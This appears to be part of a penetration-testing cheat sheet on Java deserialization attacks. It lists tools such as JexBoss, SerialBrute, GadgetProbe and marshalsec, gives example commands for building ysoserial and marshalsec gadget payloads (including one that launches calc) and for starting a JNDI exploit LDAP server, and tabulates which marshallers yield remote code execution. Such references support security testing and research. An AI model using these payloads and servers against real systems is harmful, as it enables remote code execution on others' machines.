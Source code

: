 
### Alternative Tooling

- [pwntester/JRE8u20_RCE_Gadget](https://github.com/pwntester/JRE8u20_RCE_Gadget) - Pure JRE 8 RCE Deserialization gadget
- [joaomatosf/JexBoss](https://github.com/joaomatosf/jexboss) - JBoss (and others Java Deserialization Vulnerabilities) verify and EXploitation Tool
- [pimps/ysoserial-modified](https://github.com/pimps/ysoserial-modified) - A fork of the original ysoserial application 
- [NickstaDB/SerialBrute](https://github.com/NickstaDB/SerialBrute) - Java serialization brute force attack tool
- [NickstaDB/SerializationDumper](https://github.com/NickstaDB/SerializationDumper) - A tool to dump Java serialization streams in a more human readable form
- [bishopfox/gadgetprobe](https://labs.bishopfox.com/gadgetprobe) - Exploiting Deserialization to Brute-Force the Remote Classpath
- [k3idii/Deserek](https://github.com/k3idii/Deserek) - Python code to Serialize and Unserialize java binary serialization format. 
  ```java
  java -jar ysoserial.jar URLDNS http://xx.yy > yss_base.bin
  python deserek.py yss_base.bin --format python > yss_url.py
  python yss_url.py yss_new.bin
  java -cp JavaSerializationTestSuite DeSerial yss_new.bin
  ```
- [mbechler/marshalsec](https://github.com/mbechler/marshalsec) - Java Unmarshaller Security - Turning your data into code execution
  ```java
  $ java -cp marshalsec.jar marshalsec.<Marshaller> [-a] [-v] [-t] [<gadget_type> [<arguments...>]]
  $ java -cp marshalsec.jar marshalsec.JsonIO Groovy "cmd" "/c" "calc"
  $ java -cp marshalsec.jar marshalsec.jndi.LDAPRefServer http://localhost:8000\#exploit.JNDIExploit 1389
  // -a - generates/tests all payloads for that marshaller
  // -t - runs in test mode, unmarshalling the generated payloads after generating them.
  // -v - verbose mode, e.g. also shows the generated payload in test mode.
  // gadget_type - Identifier of a specific gadget, if left out will display the available ones for that specific marshaller.
  // arguments - Gadget specific arguments
  ```

Payload generators for the following marshallers are included:

| Marshaller                      | Gadget Impact                                |
| ------------------------------- | ---------------------------------------------- |
| BlazeDSAMF(0&#124;3&#124;X)     | JDK only escalation to Java serialization various third party libraries RCEs |
| Hessian&#124;Burlap             | various third party RCEs |
| Castor                          | dependency library RCE |
| Jackson                         | **possible JDK only RCE**, various third party RCEs |
| Java                            | yet another third party RCE |
| JsonIO                          | **JDK only RCE** |
| JYAML                           | **JDK only RCE** |
| Kryo                            | third party RCEs |
| KryoAltStrategy                 | **JDK only RCE** |
| Red5AMF(0&#124;3)               | **JDK only RCE** |
| SnakeYAML                       | **JDK only RCEs** |
| XStream                         | **JDK only RCEs** |
| YAMLBeans                       | third party RCE |
